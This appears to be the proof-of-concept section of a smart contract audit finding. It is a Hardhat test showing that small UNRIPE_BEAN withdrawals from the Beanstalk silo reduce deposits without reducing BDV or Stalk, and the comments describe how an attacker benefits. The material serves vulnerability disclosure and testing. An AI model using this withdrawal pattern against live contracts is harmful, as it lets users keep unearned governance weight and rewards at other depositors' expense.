 **Proof of Concept:** Add this PoC to `SiloToken.test.js` under the section `describe("1 deposit, some", async function () {`:

```javascript
it('audit small unripe bean withdrawals dont decrease BDV and Stalks', async function () {
    let initialUnripeBeanDeposited    = to6('10');
    let initialUnripeBeanDepositedBdv = '2355646';
    let initialTotalStalk = pruneToStalk(initialUnripeBeanDeposited).add(toStalk('0.5'));

    // verify initial state
    expect(await this.silo.getTotalDeposited(UNRIPE_BEAN)).to.eq(initialUnripeBeanDeposited);
    expect(await this.silo.getTotalDepositedBdv(UNRIPE_BEAN)).to.eq(initialUnripeBeanDepositedBdv);
    expect(await this.silo.totalStalk()).to.eq(initialTotalStalk);

    // snapshot EVM state as we want to restore it after testing the normal
    // case works as expected
    let snapshotId = await network.provider.send('evm_snapshot');

    // normal case: withdrawing total UNRIPE_BEAN correctly decreases BDV & removes stalks
    const stem = await this.silo.seasonToStem(UNRIPE_BEAN, '10');
    await this.silo.connect(user).withdrawDeposit(UNRIPE_BEAN, stem, initialUnripeBeanDeposited, EXTERNAL);

    // verify UNRIPE_BEAN totalDeposited == 0
    expect(await this.silo.getTotalDeposited(UNRIPE_BEAN)).to.eq('0');
    // verify UNRIPE_BEAN totalDepositedBDV == 0
    expect(await this.silo.getTotalDepositedBdv(UNRIPE_BEAN)).to.eq('0');
    // verify silo.totalStalk() == 0
    expect(await this.silo.totalStalk()).to.eq('0');

    // restore EVM state to snapshot prior to testing normal case
    await network.provider.send("evm_revert", [snapshotId]);

    // re-verify initial state
    expect(await this.silo.getTotalDeposited(UNRIPE_BEAN)).to.eq(initialUnripeBeanDeposited);
    expect(await this.silo.getTotalDepositedBdv(UNRIPE_BEAN)).to.eq(initialUnripeBeanDepositedBdv);
    expect(await this.silo.totalStalk()).to.eq(initialTotalStalk);

    // attacker case: withdrawing small amounts of UNRIPE_BEAN doesn't decrease
    // BDV and doesn't remove stalks. This lets an attacker withdraw their deposits
    // without losing Stalks & breaks the invariant that the totalDepositedBDV should
    // equal the sum of the BDV of all individual deposits
    let smallWithdrawAmount = '4';
    await this.silo.connect(user).withdrawDeposit(UNRIPE_BEAN, stem, smallWithdrawAmount, EXTERNAL);

    // verify UNRIPE_BEAN totalDeposited has been correctly decreased
    expect(await this.silo.getTotalDeposited(UNRIPE_BEAN)).to.eq(initialUnripeBeanDeposited.sub(smallWithdrawAmount));
    // verify UNRIPE_BEAN totalDepositedBDV remains unchanged!
    expect(await this.silo.getTotalDepositedBdv(UNRIPE_BEAN)).to.eq(initialUnripeBeanDepositedBdv);
    // verify silo.totalStalk() remains unchanged!
    expect(await this.silo.totalStalk()).to.eq(initialTotalStalk);
});
```
Run with: `npx hardhat test --grep "audit small unripe bean withdrawals dont decrease BDV and Stalks"`.
